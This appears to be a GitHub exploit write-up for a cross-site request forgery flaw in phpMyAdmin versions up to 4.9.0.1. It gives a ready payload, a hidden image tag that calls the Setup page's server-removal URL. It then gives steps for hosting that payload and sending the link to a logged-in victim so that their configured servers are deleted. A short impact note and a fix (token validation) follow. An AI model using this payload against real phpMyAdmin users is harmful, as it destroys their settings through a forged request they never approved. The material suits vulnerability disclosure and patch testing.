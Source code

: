 # phpMyAdmin <= 4.9.0.1 - Cross-Site Request Forgery
Has been detected a Cross-Site Request Forgery in phpMyAdmin, that allows an attacker to trigger a CSRF attack against a phpMyAdmin user deleting any server in the Setup page.

<h2>Steps:</h2>

1) Create a file on your **web server** and paste this code in new file:
```
<p>Deleting Server 1</p>
<img src="
http://victim.com/phpmyadmin/setup/index.php?page=servers&mode=remove&id=1"
style="display:none;" />
```
2) Now that you have successfully created and Uploaded file on a webserver, Share the link of the file to victim which is logged-in phpMyAdmin as soon as Victim will open the link will delete any
server in the Setup page. 


**Change the Domain and the location of phpmyadmin directory if changed**

NOTE: 
- This will only work if the person you're going to send the link is logged-in to the phpMyAdmin.


<h4>BUSINESS IMPACT</h4>

The attacker can easily create a fake hyperlink containing the request that
wants to execute on behalf the user,in this way making possible a CSRF
attack due to the wrong use of HTTP method.

<h4>SOLUTION</h4>

Implement in each call the validation of the token variable, as already
done in other phpMyAdmin requests.
